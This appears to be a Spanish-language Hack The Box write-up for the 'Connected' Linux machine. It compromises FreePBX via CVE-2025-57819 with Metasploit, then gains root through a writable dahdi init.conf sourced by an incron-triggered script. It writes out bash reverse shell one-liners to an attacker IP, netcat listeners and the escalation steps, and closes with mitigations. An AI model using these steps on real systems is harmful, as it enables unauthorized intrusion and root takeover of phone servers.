










# Connected — Hack The Box

> [!info] Resumen
> Máquina Linux con **FreePBX 16.0.40.7** expuesto en HTTP/HTTPS. Se explota **[[CVE-2025-57819]]** (SQLi no autenticada en `ajax.php` que permite crear cron jobs con RCE) para obtener una reverse shell como `asterisk`. La escalada a root se logra mediante un **SUID en [[incrontab]]** que ejecuta `/etc/init.d/dahdi` como root, el cual hace `source` de `/etc/dahdi/init.conf`, un archivo escribible por `asterisk`.

**Cadena de ataque:**
```
Recon → FreePBX 16.0.40.7 → CVE-2025-57819 (SQLi → RCE)
→ shell como asterisk → user.txt
→ incrontab SUID → dahdi source init.conf → root
→ root.txt
```

---
IP del host remoto = 10.129.128.94 (varía en cada instancia de la máquina)
## 1. Reconocimiento

### 1.1 Conexión a la VPN

```bash
sudo openvpn archivo.ovpn
ping IP_HTB
```


### 1.2 Escaneo de puertos

```bash
nmap 10.129.128.94
```

**Puertos abiertos:**

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH |
| 80     | HTTP     | Apache  |
| 443    | HTTPS    | Apache  |

Con un navegador, accedemos al servicio de la máquina en http://10.129.128.94:80 y veremos que no se resuelve la dirección. 

No obstante, la barra de texto nos da una pista de que la máquina contiene este servicio en un Virtual Host con el nombre de **connected.htb**; por lo que, tenemos que insertarlo en el header de la petición para que el servidor sepa a que vhost redireccionarnos al visitar su puerto 80.

### 1.3 Enumeración web y vhost
Confirmamos nuestras sospechas con el siguiente comando:

```bash
curl -i http://10.129.128.94
```

La respuesta revela el hostname `connected.htb`. Lo añadimos a `/etc/hosts`:

```bash
echo "10.129.128.94 connected.htb" | sudo tee -a /etc/hosts
ping connected.htb
```

Ahora, nuestra máquina resuelve la IP por **connected.htb** asi como cuando hacemos **ping localhost** y este es igual que hacer **ping 127.0.0.1**.
Por lo tanto, el nombre de dominio del reto ahora se incluye en las peticiones que hagamos, haciendo que el servidor sepa el vhost que necesitamos.

Al visitar `http://connected.htb` vemos un panel de **FreePBX** con versión **16.0.40.7**.



---

## 2. Identificación de la vulnerabilidad

FreePBX es un GUI basado en web que permite administrar telefonía y servicios de voz (VoIP) por medio de Asterisk; un software libre que permite convertir una computadora normal en un server de comunicaciones y una central telefónica IP.
Al buscar en Google este servicio con la versión que usa la máquina "FreePBX 16.0.40.7" inmediatamente nos salta el siguiente CVE:

- NVD: https://nvd.nist.gov/vuln/detail/CVE-2025-57819
- CVE.org: https://www.cve.org/CVERecord?id=CVE-2025-57819

**[[CVE-2025-57819]]** — FreePBX `ajax.php` unauthenticated SQLi to RCE.

- **CVSS:** 9.8 (Critical)
- **CWE:** [[CWE-89]] (SQL Injection)
- **Impacto:** RCE no autenticado vía inyección SQL en el parámetro `brand`, que crea un cron job malicioso.

---

## 3. Explotación inicial

### 3.1 Búsqueda del módulo en Metasploit

```bash
msfconsole
msf > search cve:2025-57819
msf > use 0
```

### 3.2 Configuración

```bash
msf exploit(...) > set RHOSTS connected.htb
msf exploit(...) > set LHOST 10.10.17.133
msf exploit(...) > set LPORT 4444
msf exploit(...) > check
msf exploit(...) > run
```

> [!warning] Nota
> Usar el nombre de dominio `connected.htb` en lugar de la IP. El módulo valida el `Host` header y con la IP puede fallar.



### 3.3 Shell interactiva desde Meterpreter

Meterpreter funciona, pero para trabajar cómodo lanzamos una reverse shell adicional:

```bash
# En otra terminal de Kali
nc -lvnp 5555

# Desde Meterpreter
meterpreter > shell
bash -c 'bash -i >& /dev/tcp/10.10.17.133/5555 0>&1'
```


Y la estabilizamos:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
export TERM=xterm
export SHELL=/bin/bash
```

---

## 4. Flag de usuario

```bash
ls
cat user.txt
```



**Flag de usuario encontrada!**

---

## 5. Escalada de privilegios

### 5.1 Enumeración de SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Hallazgo relevante:**

```
/usr/bin/incrontab
```

`incrontab` es el binario de **[[incron]]**, un demonio que ejecuta comandos cuando cambian archivos. Es un SUID clásico en máquinas FreePBX.




### 5.2 Análisis de las reglas de incron

```bash
cat /etc/incron.d/*
```

Revela la regla:

```
/var/spool/asterisk/incron IN_MODIFY,IN_ATTRIB,IN_CLOSE_WRITE 
```



### 5.3 Identificación del vector: `dahdi`

```bash
grep -n "init.conf" /etc/init.d/dahdi
ls -l /etc/dahdi/init.conf
```

**Hallazgos clave:**

- `/etc/init.d/dahdi` hace `source` de `/etc/dahdi/init.conf` (línea 69).
- `/etc/dahdi/init.conf` es **escribible por `asterisk`** (`-rw-r--r-- asterisk asterisk`).

Como el script de dahdi se ejecuta como root cuando incron dispara `dahdi_restart`, cualquier línea que pongamos en `init.conf` se ejecutará como root.



### 5.4 Explotación

**Listener en Kali:**

```bash
nc -lvnp 6666
```

**Payload en `init.conf`:**

```bash
echo 'bash -i >& /dev/tcp/10.10.17.133/6666 0>&1' >> /etc/dahdi/init.conf
tail -1 /etc/dahdi/init.conf    # verificar que NO tiene echo delante
```

**Disparar el trigger:**

```bash
echo "go" >> /var/spool/asterisk/sysadmin/dahdi_restart
```

> [!warning] Nota sobre el trigger
> Existen dos rutas con `dahdi_restart` (`incron/` y `sysadmin/`). En esta máquina funcionó tocando la de `sysadmin/`, que es la que dispara la cadena vía `sysadmin_manager`. Si no funciona, probar la de `incron/`.



---

## 6. Flag de root

```bash
cd /root
ls
cat root.txt
```



**Flag de root encontrada!** 

---

## 7. Conclusión y lecciones

- **Vector inicial:** [[CVE-2025-57819]], SQLi no autenticada en FreePBX.
- **Escalada:** cadena SUID [[incrontab]] → `sysadmin_manager` → `dahdi` → `source init.conf` → RCE como root.
- **Lección:** los SUID en binarios de sistemas de terceros (FreePBX, Asterisk) son vectores frecuentes en CTFs. Cuando un script privilegiado hace `source` de un archivo escribible, es RCE directo.

**Mitigaciones:**

- Actualizar FreePBX a 16.0.89 o superior.
- Restringir permisos de `/etc/dahdi/init.conf` a solo root.
- No usar `source` sobre archivos en directorios escribibles por usuarios sin privilegios.
- Evitar SUID innecesarios en binarios de gestión.

---

## 8. Referencias

- [NVD — CVE-2025-57819](https://nvd.nist.gov/vuln/detail/CVE-2025-57819)
- [CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-57819)
- [GTFOBins](https://gtfobins.github.io/)
- [[Metasploit]]
- [[incron]]
- [[FreePBX]]

---
